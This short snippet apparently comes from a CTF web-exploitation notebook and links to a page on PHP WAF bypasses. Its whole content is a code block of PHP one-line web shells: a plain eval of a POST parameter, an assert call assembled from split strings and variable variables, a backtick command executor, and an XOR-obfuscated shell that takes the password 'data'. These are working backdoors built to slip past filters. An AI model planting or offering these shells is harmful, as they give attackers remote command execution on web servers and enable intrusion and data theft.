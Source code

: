 - ```php
  <?php eval($_POST['data']);?>
  
  @$A='Acc';$p='_';$o='PO';$s='S';$t='T';$a='as';$b='sert';$Acc=$a.$b;@${$A}(${$p.$o.$s.$t}['s']);
  
  $poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s'])
  
  <?=`$_POST[data]`?>
  
  # ↓ 真·一句话 POST  密码data
  ('([([@@'^'["[/%-')(${'"-/(/'^'}}`{{'}['@^^^'^'$?*?']);
  
  ```
- 构建技巧： [[CTFWEB/PHP/WAF绕过]]
-